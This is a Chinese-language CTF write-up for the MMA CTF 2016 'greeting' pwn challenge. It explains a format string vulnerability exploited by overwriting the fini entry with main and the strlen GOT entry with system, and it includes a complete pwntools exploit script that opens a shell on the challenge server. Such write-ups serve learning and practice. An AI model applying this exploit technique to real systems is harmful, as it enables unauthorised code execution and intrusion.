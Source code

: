 Title: [MMA CTF 2016] greeting
Date: 2016-09-06 20:33
Tags: MMA, CTF, pwn, Format String, GOT Hijacking
Author: Naetw
Summary: A write-up for MMA CTF 2016 greeting

## Description

> 程式很簡單小小的，存在 `format string` 的洞，但是卻不知道要怎樣利用，call 完 `printf` 就沒再 call 其他 function 了，然後發現有 `stack guard` 的保護，於是一直想辦法去寫爛 `canary` 然後順便把 `__stack_chk_fail` 的 GOT 給 hijack 掉，但是想了各種方法都失敗 Orz，想過用類似 BP chain 的方式把它寫爛，但是他只讀 64bytes 實在是不夠用....
>
> 只能說自己經驗太少，只會往自己玩過方向走QQ，從早上看到下午都在鑽那些不能的點實在太菜了... 後來有了**@leepupu**的提示--> overwrite `fini` 才繼續解這題@@

`fini` 是一個 call 完 `main` 之後會呼叫的 function，他的 function address 在 `.bss`段，我一開始還在想要做 ROP 後來發現太麻煩了，然後這時候 trello 通知跳出來＠＠ **@bananaapple** 把作法貼了上去，不小心讀到，才發現他那樣做簡單又方便QQ 我的想法太蠢QQ

## Exploit

在 `getnline` 這個 function 裡頭的最後一段 code 是長這樣的：

```c
return strlen(s);
```

s 是我們輸入的 input 儲存的 char array 開頭，所以目標就是把 `fini` 改寫成 main 讓他再跑一次，然後順便改寫 `strlen` 的 GOT，改成 `system` 這麼一來 return to main 之後 input 輸入 sh，這樣一來在上面那段 return 前 就會變成 `system('sh')` shell 就開起來了@@

有一點要注意的是因為他可讀的大小只有 64 bytes，所以一次改 2bytes 才不會改不完而造成程式 crash。

我的 exploit 是後來改成讓程式自己算 padding 長度，其實可以直接開 `ipython` 或啥的計算機手算也蠻快的@@

`return to main` 真好用QQ

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

r = remote('127.0.0.1', 4000)
#r = remote('pwn2.chal.ctf.westerns.tokyo', 16317)

raw_input('#')

main = 0x080485ed
system = 0x8048490
strlen_got = 0x08049a54
fini = 0x08049950

payload = 'AA' # padding
payload += p32(strlen_got+2) # put this in first since the higher bytes i want is 0x0804 which is smaller than 0x8490
payload += p32(strlen_got)
payload += p32(fini) # since the address of fini is 0x0804xxxx so we just have to change its lower 2 bytes -> 0x85ed

printed = 20 + 4*3

def pad(func, p, low_or_high):
    if low_or_high != 0:
        return ((((func) & 0xffff) - p) % 0xffff + 0xffff) % 0xffff
    else :
        return ((((func >> 2*8) & 0xffff) - p) % 0xffff + 0xffff) % 0xffff

for i in range(3):
    if i < 2:
        f = system
    else :
        f = main
    padding = pad(f, printed, i)
    if padding > 0:
        payload += '%%%dc' % (padding)
    payload += '%%%d$hn' % (12+i)
    printed += padding

r.sendline(payload)

r.sendline('sh\x00')

r.interactive()
```

還有很多要學，加油吧。
